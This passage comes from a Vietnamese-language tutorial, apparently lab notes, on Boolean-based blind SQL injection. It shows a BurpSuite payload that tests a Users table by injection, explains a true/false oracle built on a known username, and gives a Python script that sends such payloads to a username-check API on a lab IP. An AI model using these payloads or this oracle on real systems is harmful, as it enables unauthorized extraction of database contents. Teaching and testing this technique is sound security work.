 Sử dụng công cụ **BurpSuite**, chúng ta có thể gửi yêu cầu với payload sau:

```sql
' OR (SELECT COUNT(*) FROM Users WHERE Username LIKE 'a%') > 0--
```

Nếu máy chủ trả về **status: taken**, điều này cho thấy có ít nhất một tên người dùng bắt đầu bằng chữ **'a'**. Chúng ta có thể tiếp tục thử nghiệm với các ký tự khác và xây dựng một tập lệnh tự động để trích xuất dữ liệu từ cơ sở dữ liệu thông qua các truy vấn Boolean-based Blind SQL Injection.

---
# 4.Thiết kế "Oracle" để khai thác Blind SQL Injection

**Lý thuyết**

Khi phát hiện một **Blind SQL Injection**, mục tiêu đầu tiên là thiết kế một cơ chế để gửi truy vấn và nhận phản hồi xác định truy vấn có giá trị **`True`** hoặc **`False`**. 

Cách thực hiện:
- Giả sử bạn biết tài khoản **`maria`** tồn tại trong cơ sở dữ liệu. 
- Bạn có thể chèn truy vấn như sau: **`maria' AND q-- -`**, với **`q`** là truy vấn bạn muốn kiểm tra. Nếu:
  - Kết quả là **`True`**, máy chủ sẽ trả về trạng thái **`status:taken`** (nghĩa là tài khoản đã tồn tại).
  - Kết quả là **`False`**, máy chủ trả về **`status:available`** (nghĩa là tài khoản không tồn tại).

Ví dụ:
- Để kiểm tra **`1=1`**:
  - Inject **`maria' AND 1=1-- -`** → Máy chủ trả về **`status:taken`** (kết quả **True**).
- Để kiểm tra **`1=0`**:
  - Inject **`maria' AND 1=0-- -`** → Máy chủ trả về **`status:available`** (kết quả **False**).

**Lưu ý:**
- Phải dùng một username tồn tại sẵn (như **`maria`**) để đảm bảo phản hồi chính xác. Nếu dùng username không tồn tại, kết quả luôn là **`available`**, dù truy vấn là **`True`** hay **`False`**.

---

### **Ví dụ triển khai bằng Python**

Đoạn mã Python dưới đây minh họa cách thiết kế **Oracle**:

#### **Mã Python**
```python
#!/usr/bin/python3
import requests
import json
from urllib.parse import quote_plus

# Định nghĩa tài khoản mục tiêu
target = "maria"

# Hàm kiểm tra truy vấn `q` có kết quả là `True` hay `False`
def oracle(q):
    # Encode payload
    payload = quote_plus(f"{target}' AND ({q})-- -")
    # Gửi yêu cầu GET
    response = requests.get(f"http://192.168.43.37/api/check-username.php?u={payload}")
    # Phân tích phản hồi JSON
    result = json.loads(response.text)
    # Kiểm tra trạng thái trả về
    return result['status'] == 'taken'

# Kiểm tra hàm hoạt động đúng
assert oracle("1=1")  # True
assert not oracle("1=0")  # False
```
